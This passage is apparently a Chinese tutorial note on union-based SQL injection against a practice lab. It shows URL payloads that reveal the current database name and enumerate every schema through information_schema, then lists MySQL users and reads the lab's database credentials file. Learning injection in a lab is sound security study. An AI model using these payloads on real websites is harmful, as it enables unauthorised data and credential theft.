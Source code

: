 获取到当前网页的数据库名`?id=-1%20union%20select%201,database(),3`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623909977853-9096b7a1-d578-4b2b-bb3c-b08b3c480dfc.png#clientId=u26b2aef3-4887-4&from=paste&height=214&id=u49d0ba9f&originHeight=349&originWidth=1221&originalType=binary&ratio=2&rotation=0&showTitle=false&size=31217&status=done&style=none&taskId=u49d3456e-ad89-4a6f-ab3a-dbcc706db1b&title=&width=749.5)<br />获取到当前网站的数据库是security

- 常见的数据库与用户的对应关系
```bash
数据库A=网站A=数据库用户A	——>表名——>列名——>数据
数据库B=网站B=数据库用户B	——>表名——>列名——>数据
数据库C=网站C=数据库用户C	——>表名——>列名——>数据
```
**备注：**这样的好处一个用户对应一个库、这样网站之间的数据互不干扰，当然这是最基础的数据库模型，现在大网站都是分布式数据库。<br /> 

- 在数据库中查询有哪些用户
```bash
mysql> use mysql;
Database changed
mysql> select host,user,password from user;
+--------------+------+----------+
| host         | user | password |
+--------------+------+----------+
| localhost    | root |          |
| 2c8a2316583a | root |          |
| 127.0.0.1    | root |          |
| ::1          | root |          |
+--------------+------+----------+
4 rows in set (0.00 sec)

mysql>
```
在源码中查看使用的是哪一个用户
```bash
root@2c8a2316583a:/var/www/html# cat sql-connections/db-creds.inc
<?php

//give your mysql connection username n password
$dbuser ='root';
$dbpass ='';
$dbname ="security";
$host = 'localhost';
$dbname1 = "challenges";
?>
```
一般在网站安装的时候会指定数据库的用户名和密码这里指定的是root用户密码为空指定的数据库是security<br /> <br /> 跨库查询的前提条件是必须**高权限**的用户才能执行跨库查询。<br />`?id=-1%20union%20select%201,schema_name,3%20from%20information_schema.schemata`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623911400556-a2069f1c-3047-4aa7-b65e-6bd5ea995d02.png#clientId=u26b2aef3-4887-4&from=paste&height=267&id=u4a851ee0&originHeight=464&originWidth=1281&originalType=binary&ratio=2&rotation=0&showTitle=false&size=345767&status=done&style=none&taskId=udfba4a2b-b24c-46e3-a8ca-eeafeecda0b&title=&width=737.5)<br />数据库中执行
```bash
mysql> SELECT * FROM users WHERE id=-1 union select 1,schema_name,3 from information_schema.schemata LIMIT 0,1;
+----+--------------------+----------+
| id | username           | password |
+----+--------------------+----------+
|  1 | information_schema | 3        |
+----+--------------------+----------+
1 row in set (0.00 sec)

mysql>

```
